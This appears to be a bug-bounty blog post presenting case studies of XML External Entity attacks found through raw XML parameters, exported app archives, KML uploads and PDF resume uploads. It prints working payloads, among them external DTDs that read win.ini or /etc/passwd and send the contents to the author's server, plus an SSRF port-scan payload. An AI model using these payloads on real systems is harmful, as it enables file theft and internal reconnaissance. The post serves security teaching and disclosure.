 ```yaml
---
layout: single
title: XXE Case Studies
date: 2021-07-26
classes: wide
header:
  teaser: /assets/images/BB.png
tags:
  - Bug Bounty
  - XXE
  - Penetration Testing
---
```


As it has been some time since my last blog post, I decided I would set aside some time to write one now. The topic of this blog post is inspired by a bug I found earlier this morning on a bug bounty program.

## XML External Entity (XXE) Attacks
I have always been fascinated by XXE attacks, and in this blog, I will outline some of the checks I perform when bug bounty hunting to identify and exploit these vulnerabilities. 

While XXE vulnerabilities are rare, they are generally quite easy to exploit. Additionally, they almost always result in a high or critical severity. There are many blogs and resources that talk about what an XXE vulnerability is, so instead I will focus more on examples that I have seen. Unfortunately, I will not be able to share complete walkthroughs as many of these bugs are undisclosed.

## Case Study #1: strXML Parameter

When hunting bugs with Burp Suite, I utilize the extension [Burp Bounty]( https://github.com/wagiro/BurpBounty). This allows me to create custom passive and active profiles. One of the passive profiles I utilized a while back would look for XML in every HTTP request. Upon finding it, the extension would create an issue for me to investigate manually.

![](/assets/images/XXE/1.png)  

This alerted me to quite a fun parameter one day while bug bounty hunting. A recreation of the request is shown below.

![](/assets/images/XXE/2.png)  

That’s right, the `strXML` parameter simply took raw XML. Interestingly enough the bulk of it wasn’t even URL encoded! Not sure how this was a validly formatted HTTP request.
Sadly, I was only able to escalate this finding to an internal port scan via SSRF with a payload similar to the following:
```xml
strXML=<?xml version%3D"1.0" encoding%3D"ISO-8859-1"?>
<!DOCTYPE testingxxe [<!ENTITY xxe PUBLIC "xxe" "http://localhost:21/" >
]> 
    <data>
        <xxx>
            <xxx>194147</xxx>
        </xxx>
        <identity>&xxe;</identity>
    </data>

```
Then Burp Intruder was used to iterate through the top 1000 ports. The open ports returned a different content-length than closed ports.

## Case Study #2: XXE via Proprietary Filetype

I stumbled upon this next XXE completely by accident. The web site had functionality that allowed users to build “apps”. Apps could be exported to a propriety file extension that I did not recognize. Upon running `strings` on one of these files I discovered it was a zip file. Upon unzipping the file, I was greeted by a beautiful site.

![](/assets/images/XXE/3.png)  

Next, I replaced the contents of one of the XML files with the following XXE payload.
```
<?xml version="1.0" encoding="UTF-8" standalone="no"?>
<!DOCTYPE cinzinga SYSTEM "http://poc.cinzinga.com/test.dtd">
<cinzinga>&e1;</cinzinga>
```

And the contents of `/test.dtd` are shown below:
```
<!ENTITY % p1 SYSTEM "file:///windows/win.ini">
<!ENTITY % p2 "<!ENTITY e1 SYSTEM 'http://poc.cinzinga.com/?x=%p1;'>">
%p2;
```

Upon zipping the folder back up, and importing this app, I was greeted with the contents of `C:\Windows\win.ini` sent to my web server.

## Case Study #3: XXE via KML File
I have encountered a number of sites that take more obscure XML file types as input. Multiple times, I have achieved XXE via KML. KML is a type of XML that is specifically used for maps and geographic data.

To exploit these file uploads, I simply download [a sample KML file]( https://developers.google.com/kml/documentation/KML_Samples.kml) and append an XXE payload in the second line.

To exploit the one I identified today, I made use of a great tool developed by a close friends [Tib3rius](https://twitter.com/0xTib3rius). The tool can be found [here]( https://github.com/WhiteOakSecurity/Dynamic-DTD).

This app is run with the following command:
```
flask run -p <port> -h <interface-ip>
```
And triggered with the corresponding payload:
```
<!DOCTYPE foo [<!ENTITY % xxe SYSTEM "http://<server-ip>malicious.dtd?ext=file:///etc/passwd"> %xxe;]>
```

This promptly resulted in the contents of `/etc/passwd` send to my web server.

![](/assets/images/XXE/4.png)  


## Case Study #4: XXE via PDF File

Thus far in my bug bounty career, I have exploited XXE via PDF upload twice. In both cases, the intended functionality was a Resume upload on a careers subdomain. I can only assume that some backend software was scanning the PDFs to extract key information. 

To generate these PDFs, I utilize [this]( https://github.com/StefanMichielse/generate_xxe_payloads) project on GitHub.

I utilize the following command to generate a XXE PDF payload template.
```
ruby oxml_xxe.rb --poc pdf -i 192.168.0.1:8000
```

![](/assets/images/XXE/5.png)  

Next, we can open up the output PDF in a text editor to get a better idea of where the payload is rendered. We can see that the XXE payload is inserted on line 27.
![](/assets/images/XXE/6.png)  

Personally, the PDF payload I utilize is shown below. I have edited the default payload slightly. 

![](/assets/images/XXE/7.png)  

The external dtd is the same as shown above in this blog.

```
<!ENTITY % p1 SYSTEM "file:///windows/win.ini">
<!ENTITY % p2 "<!ENTITY e1 SYSTEM 'http://poc.cinzinga.com/?x=%p1;'>">
%p2;
```

## Case Study #?: XXE via Excel File

While I have not yet obtained XXE via Word or Excel file, it is something I have a payload for and routinely check. There is a great blog [here](https://www.4armed.com/blog/exploiting-xxe-with-excel/) that outlines the steps to develop an Excel XXE payload.


## Conclusion
While this article was brief, I hope it served to highlight some XXE vulnerabilities that I have exploited in the wild. While the bug type is not common, I have reported approximately a dozen XXE vulnerabilities in my bug bounty career. This number certainly warrants adding XXE checks to your arsenal of checks when assessing a web app’s security.
